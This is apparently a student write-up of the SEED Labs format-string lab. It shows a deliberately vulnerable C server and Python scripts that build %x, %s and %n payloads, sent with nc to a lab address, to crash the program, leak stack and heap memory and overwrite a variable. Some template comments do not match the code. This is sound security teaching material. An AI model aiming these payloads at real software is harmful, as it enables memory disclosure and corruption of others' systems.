

# **Week #7**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/

In this seed lab we are going to use the `format.c` program.

```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";

void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}

int main(int argc, char **argv)
{
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```

## Task 1 - Crashing the Program

In this task we first tested the server executing `echo hello | nc 10.9.0.5 9090` that sends a message saying "hello" to the server and saw that it returned the message properly. After looking in the code we can tell that if we send a significant number of `%s` it would probably crash.

We send a file with `%s%s%s%s%s%s%s%s%s%s%s` using the command `cat file | nc 10.9.0.5 9090` and the program crashed.


## Task 2: Printing Out the Server Program’s Memory
### Task 2.A: Stack Data
The goal is to print out the data on the stack using a suficient ammount of "%x" for the program to print out the first four bytes of our input.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("%x").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*64 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


We can see our input being showed in the console.

### Task 2.B: Heap Data
The goal is to print the secret message stored in the heap area. To achieve this we need to put the address of the secret message that is in binary format into the format string. In most computers to store an address 0xAABBCCDD (four bytes on a 32-bit machine) in memory, the least significant byte 0xDD is stored in the lower address while the most significant byte 0xAA is stored in the upper address. Therefore, when we store the address in a buffer, we need to store it in the following order: 0xDD, 0xCC, 0xBB and 0xAA.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("0x080b4008").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


The secret message is `"A secret message"`.

## Task 3 - Modifying the Server Program’s Memory
### Task 3.A: Change the value to a different value
In this task we needed to change the value of the `target` variable to something else.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x"*63 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

To change the target variable we used 63 `%x` again and then used `%n` that overwites the memory.


We can see that the original target variable was `0x11223344` and we changed it to `0x000000f0`.

### Task 3.B: Change the value to 0x5000
In this task we were asked to change the `target` variable again but this time to a specific value, which is `0x5000`.
After converting it into a decimal number, we realized we had to have `20480` characters before the "n".

So to print 0x5000 (20480), we need to call `%x` 20476 (20480 - 8 (4 initial bytes of the string + 4 more bytes)) times before the `n` call.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20472x%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


We can see that the target variable value changed to `0x00005000`.
